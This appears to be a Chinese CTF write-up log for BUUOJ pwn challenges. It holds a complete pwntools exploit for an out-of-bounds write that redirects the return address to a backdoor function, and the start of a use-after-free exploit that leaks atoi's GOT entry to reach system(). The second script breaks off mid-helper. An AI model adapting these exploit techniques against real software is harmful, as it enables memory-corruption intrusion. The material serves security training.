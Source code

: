 # BUUOJ Pwn刷题记录


---
## inndy_homework
run_program的edit number存在数组越界漏洞，导致可以在超出数组范围外写入数据，数组在栈的偏移是0x34 返回地址在ebp+4, 0x34+0x4/=56 56/4=14
```python
#!coding:utf-8
from pwn import *

#r=remote('node3.buuoj.cn',25191)
r=process('./homework')

r.recvuntil("What's your name?")
r.sendline('a')

r.recvuntil(' > ')
r.sendline('1')
r.recvuntil('Index to edit: ')
r.sendline('14')#0x34+0x4=56  56/4=14
r.recvuntil('How many? ')
r.sendline(str(0x080485FB))
r.recvuntil(' > ')
r.sendline("0")#执行exit 让程序返回并执行后门函数

r.interactive()
```


## pwnable_hacknote
结构体
```c
struct note{
*p;//指向0x804862B
*content; //指向note的content
}
```
漏洞在于free之后，并没有把指针置空导致UAF
思路：
先申请chunk0和chunk1，然后依次free掉，再申请一个chunk2，这时候的chunk2的p和content被分配到了chunk1的p和chunk0的p，修改chunk2的content为atoi_got，然后再print(0)，就可以泄露atoi的地址，通过偏移找到system函数，再利用一次UAF，将chunk0的p指针覆盖成system的地址，注意这里的传参方式，用需要||来截断
```python
#!coding:utf-8
from pwn import *

#r=remote('node3.buuoj.cn',29459)
r=process('./hacknote')
elf=ELF('./hacknote')
libc=ELF('./libc-2.23.so')
atoi_got=elf.got['atoi']
atoi_sym=libc.sym['atoi']
system_sym=libc.sym['system']
puts_addr=0x804862B

def Add(size,content):
        r.recvuntil('Your choice :')
        r.sendline('1')
        r.recvuntil('Note size :')
        r.sendline(str(size))
        r.recvuntil('Content :')
        r.sendline(str(content))

```